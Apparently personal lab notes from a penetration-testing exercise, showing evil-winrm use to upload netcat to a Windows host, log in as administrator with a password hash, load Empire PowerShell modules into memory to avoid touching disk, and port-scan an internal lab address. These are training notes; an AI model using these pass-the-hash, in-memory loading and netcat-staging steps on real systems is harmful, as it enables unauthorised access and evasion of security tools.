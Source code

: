 
Final Teaching : Anti-virus evasion techniques

Uploading a file and downloading a file is easy in evil-winrm
```
upload /usr/share/windows-resources/binaries/nc.exe c:\windows\tmp\nc.exe
```

```
dir c:\windows\tmp\nc.exe
```
![[Pasted image 20231231234006.png]]

Downloading
![[Pasted image 20231231234252.png]]
![[Pasted image 20231231234320.png]]

>[!Warning] 
>Note that in the real world using the `C:\Windows\Temp` directory is often a bad idea as it's flagged as a common location for hackers to upload tools. In this case we are using it to keep the box neat and tidy for other users.

There is one more great option that in evil-winrm (i.e. -s option)
Will simply specify a local directory containing PowerShell scripts -- these scripts will be made accessible for us to import directly into memory using our evil-winrm session. (i.e. they don't need to touch the disk at all)

```
evil-winrm -u USERNAME  -p PASSWORD -i IP -s /opt/scripts
```

Empire Scripts
```
cd /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network
```
![[Pasted image 20231231234939.png]]

```
evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150 -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network
```

To initialize the script
```
Invoke-Portscan.ps1
```

```
Get-Help Invoke-Portscan
```
![[Pasted image 20231231235530.png]]

```
 Invoke-Portscan -Hosts 10.200.101.100 -TopPorts 50
```
![[Pasted image 20240101000245.png]]

